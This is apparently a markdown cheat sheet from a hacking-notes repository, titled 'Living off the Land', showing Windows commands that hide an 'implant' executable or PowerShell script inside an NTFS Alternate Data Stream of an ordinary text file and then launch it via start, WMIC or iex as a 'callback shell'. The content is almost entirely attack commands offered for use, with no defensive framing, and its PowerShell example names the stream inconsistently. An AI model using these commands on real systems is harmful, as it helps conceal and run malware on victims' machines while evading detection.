 # Living off the Land

## 01 - Command Prompt

### 1.1 - Basics

Hide the file by appending inside an existing file.

```
C:\> type implant.exe > file.txt:implant.exe
```

Execute it

```
C:\> start file.txt:implant.exe
```

### 1.2 - WMIC

- Execute Callback Shell via ADS

```
C:\> wmic process create "c:\path\to\file.txt:implant.exe"
```

## 02 - Powershell

### 2.1 - Basics

Hide the file by appending inside an existing file.

```
PS C:\> Set-Content file.txt -Stream script.ps1 -Value implant.ps1
```

Execute Callback Shell via ADS

```
PS C:\> Get-Content file.txt -Stream implant.ps1 | iex
```

---
## References

- [r00t-3xp10it: ADS](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/ADS.md)